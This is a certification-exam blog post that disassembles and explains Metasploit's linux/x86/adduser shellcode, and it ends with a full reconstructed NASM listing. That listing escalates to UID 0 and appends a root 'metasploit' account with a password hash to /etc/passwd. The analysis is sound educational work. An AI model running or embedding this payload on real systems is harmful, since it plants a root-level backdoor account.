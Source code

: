 ```yaml
---
layout: post
title: "SLAE x86 Exam Part 5.2"
description: "SLAE x86 Exam Part 5.2: MSF Payload Analysis #2"
modified: 2018-06-03T14:00:00-05:00
tags: [pentest, asm, x86, slae]
---
```


# Overview
This blog post has been created for completing the requirements of the
SecurityTube Linux Assembly Expert certification:

[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](/http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1260

---
# Payload #2

This is the second payload selected for [SLAE Part 5](/slae-5-msf). 

For Payload #2, I decided to try a different approach: mapping out syscalls 
and program flow, then filling in arguments.  Here's what I saw:
{% highlight nasm %}
00000007:   0x46 (SETREUID)
00000023:   0x05 (OPEN)
0000005A:   0x04 (WRITE)
0000005F:   0x01 (EXIT)
{% endhighlight %}

The opening call to SETREUID is called after clearing out EBX and ECX, 
meaning we're trying to set the effective UID to 0.  
{% highlight nasm %}
; int setreuid(uid_t ruid, uid_t euid);
xor ecx,ecx     ; Clear ECX
mov ebx,ecx     ; Clear EBX
push byte +0x46 ; Load 0x46 (SETREUID)...
pop eax         ; ...into EAX
int 0x80        ; Exec interrupt
{% endhighlight %}

Next, we execute a `OPEN` (`0x5`) syscall on a file we determine to be 
`/etc/passwd`:
{% highlight bash %}
$ echo "2F6574632F2F706173737764" | xxd -r -p; echo
/etc//passwd
{% endhighlight %}

{% highlight nasm %}
; int open(const char *pathname, int flags, mode_t mode);
push byte +0x5  ; Load 0x5 (OPEN)...
pop eax         ; ...into EAX
xor ecx,ecx     ; Clear ECX (flags = 0)
push ecx        ; Push 0x0
push dword 0x64777373   ; sswd
push dword 0x61702f2f   ; //pa
push dword 0x6374652f   ; /etc
mov ebx,esp     ; Save pointer to path -> EBX
inc ecx         ; ECX 0x0 -> 0x1
mov ch,0x4      ; ECX 0x1 -> 0x401
int 0x80        ; Exec interrupt
{% endhighlight %}

According to `/usr/include/asm-generic/fcntl.h`, the OFLAGS set within ECX 
are `O_WRONLY` and `O_APPEND`. (Note: fnctl.h stores its flags in octal! 
0x400 = o2000) Putting this all together, we're becoming root, then preparing 
to append some text to the `/etc/passwd` file.  

What comes next is a `CALL` statement followed by a bunch of weird ASM
instructions and ending with a line break (`0x0A`); when we saw this in the 
first payload, it was a string declaration. 
{% highlight nasm %}
00000026  E828000000        call 0x53
0000002B  6D                insd        
0000002C  657461            gs jz 0x90 
...
00000052  0A598B            or bl,[ecx-0x75]
{% endhighlight %}

Here's the same text decoded:
{% highlight bash %}
$ echo "6D65746173706C6F69743A417A2F6449736A3470344952633A303A303A3A2F3A2F62696E2F73680A"| xxd -r -p
metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh
{% endhighlight %}

At this point it's clear we're creating a "metasploit" user, but because 
the string was declared inline in the .text section, `ndisasm` interpreted 
it as a series of instructions and did not delineate between these and the 
legitimate instructions that followed. Conveniently, it didn't matter since
the program's flow jumped right over it using `CALL 0x53`.  More on this in a 
minute.

I had to massage the instructions after the string before they made any sense:

{% highlight nasm %}
00000052  0A598B            or bl,[ecx-0x75]
00000055  51                push ecx
00000056  FC                cld
{% endhighlight %}

Using an x86 opcode reference [^1], I determined that the `0x59` immediately
following the `0x0A` was really a `POP ECX`, which seemed much more 
appropriate: it was loading the address of the string (pushed onto the stack  
by `CALL`) as an argument for the next syscall.  This is similar to 
the JMP/CALL/POP sequence we've seen before, albeit without the JMP.  The `8B 
51 FC`, too, makes more sense as a single call, but I still had to do some 
research to understand exactly what it was doing:

{% highlight bash %}
$ echo -ne "\x59\x8B\x51\xFC" | ndisasm -u -
00000000  59                pop ecx
00000001  8B51FC            mov edx,[ecx-0x4]
{% endhighlight %}

The instruction that led us here, `0xE828`, is a 'near' call[^2]. Since `ECX` 
contains the address of the beginning of our "metasp..." string, `ECX-0x4` 
points to the last four bytes of the previous instruction, `0x28000000`.  

To quote the linked page:
> When executing a near call, the processor pushes the value of the EIP 
> register (which contains the offset of the instruction following the CALL 
> instruction) onto the stack (for use later as a return-instruction 
> pointer). The processor then branches to the address in the current code 
> segment specified with the target operand. The target operand specifies 
> either an absolute offset in the code segment (that is an offset from the 
> base of the code segment) or a relative offset (a signed displacement 
> relative to the current value of the instruction pointer in the EIP register, 
> which points to the instruction following the CALL instruction).

When executing `0xE828`, EIP will point to the next instruction, `0x2B`; we get 
`CALL 0x53` from `0x2B + 0x28 = 0x53`.  

This is an ingenious way to get the length of the string we just built: 
 1. `PUSH` the starting address onto the stack with `CALL`
 2. `POP` the address into `ECX`
 3. Look back 4 bytes to figure out how far we just jumped
 4. `MOV` that offset into `EDX`

The rest of the program is pretty straightforward: load `0x4` (`WRITE`) 
syscall into `EAX`, execute, and exit gracefully.

{% highlight nasm %}
global _start

section .text
_start:
    xor ecx,ecx     ; Clear ECX
    mov ebx,ecx     ; Clear EBX
    push byte +0x46 ; Load 0x46 (SETREUID)...
    pop eax         ; ...into EAX
    int 0x80        ; Exec interrupt
    push byte +0x5  ; Load 0x5 (OPEN)...
    pop eax         ; ...into EAX
    xor ecx,ecx     ; Clear ECX (flags = 0)
    push ecx        ; Push 0x0
    push dword 0x64777373   ; sswd
    push dword 0x61702f2f   ; //pa
    push dword 0x6374652f   ; /etc
    mov ebx,esp     ; Save pointer to path -> EBX
    inc ecx         ; ECX 0x0 -> 0x1
    mov ch,0x4      ; ECX 0x1 -> 0x401 (O_WRONLY|O_APPEND)
    int 0x80        ; Exec interrupt
    xchg eax,ebx    ; Save file descriptor -> EBX
    call 0x53       ; Jump +0x28 (LBL1)
    ; "metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh"...
LBL1:
    pop ecx         ; Get address of string
    mov edx,[ecx-0x4]   ; Get length of string
    push byte +0x4  ; Load 0x4 (WRITE)...
    pop eax         ; ...into EAX
    int 0x80        ; Exec interrupt
    push byte +0x1  ; Load 0x1 (EXIT)...
    pop eax         ; ...into EAX
    int 0x80        ; Exec interrupt
{% endhighlight %}

There you have it: linux/x86/adduser. We saw some neat tricks in this one!

## Screenshots

![Execution of Payload #2]({{ "/assets/images/5.2-msf2.png" | absolute_url}})

Finally, on to [Payload #3](/slae-5-msf3)

---

[^1]: https://ref.x86asm.net/geek32.html#x58
[^2]: https://c9x.me/x86/html/file_module_x86_id_26.html
